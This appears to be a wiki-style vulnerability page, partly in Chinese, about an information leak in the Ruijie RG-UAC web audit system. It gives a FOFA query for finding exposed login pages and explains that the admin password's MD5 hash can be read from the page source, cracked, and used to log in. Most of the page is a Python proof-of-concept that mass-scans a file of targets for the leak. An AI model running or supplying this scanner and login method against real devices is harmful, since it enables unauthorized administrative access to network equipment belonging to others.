 <languages  />

FOFA
----

     title="RG-UAC登录页面" && body="admin"

<translate>F12查看網頁源碼搜索關鍵字</translate>`admin` [400px](檔案:Cnvd1.jpg "wikilink") <translate>使用 password值 md5解密即可登錄。(用戶名admin)</translate>

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mFile         >>> ip.txt                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

    def Scan(file_name):
        with open(file_name, "r", encoding='utf8') as scan_url:
            for url in scan_url:
                if url[:4] != "http":
                    url = "http://" + url
                url = url.strip('\n')
                try:
                    POC_1(url)

                except Exception as e:
                    print("\033[31m[x] 请求报错 \033[0m".format(e))
                    continue

    if __name__ == '__main__':
        title()
        file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
        Scan(file_name)

<translate>==參考==</translate> <https://mp.weixin.qq.com/s/LbSPzt__mKdNN83RhJ2bwA>